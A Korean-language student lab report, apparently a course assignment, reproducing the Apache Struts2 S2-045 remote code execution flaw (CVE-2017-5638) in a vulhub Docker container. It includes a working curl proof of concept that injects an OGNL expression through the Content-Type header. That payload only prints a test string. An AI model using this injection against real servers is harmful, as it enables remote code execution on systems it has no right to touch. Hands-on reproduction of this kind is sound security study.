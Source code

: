 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과정
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 과제를 진행하면서, 제가 제대로 방향을 잡고 수행하고 있는지 확신이 들지 않았습니다. 어쩌면 과제를 잘못 이해한 것 같다고 생각합니다.  
그럼에도 불구하고 주어진 조건 안에서 할 수 있는 최선을 다해 환경을 구축하고, 취약점 검증까지 마무리하려고 노력하였습니다.  
과정 중 부족한 부분이 많았던 것은 사실이지만, Docker와 취약점 환경 구축 과정을 직접 경험해볼 수 있었던 점은 큰 의미가 있었습니다.  
만약 기회가 된다면, 과제 내용을 완전히 이해한 상태로 다시 한 번 제대로 도전해보고 싶습니다.

## 6. 참고 자료
- Vulhub Struts2 S2-045 환경 (https://vulhub.org/#/environments/struts2/s2-045/)
- CVE-2017-5638 상세정보 - NVD (https://nvd.nist.gov/vuln/detail/CVE-2017-5638)


## 7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045
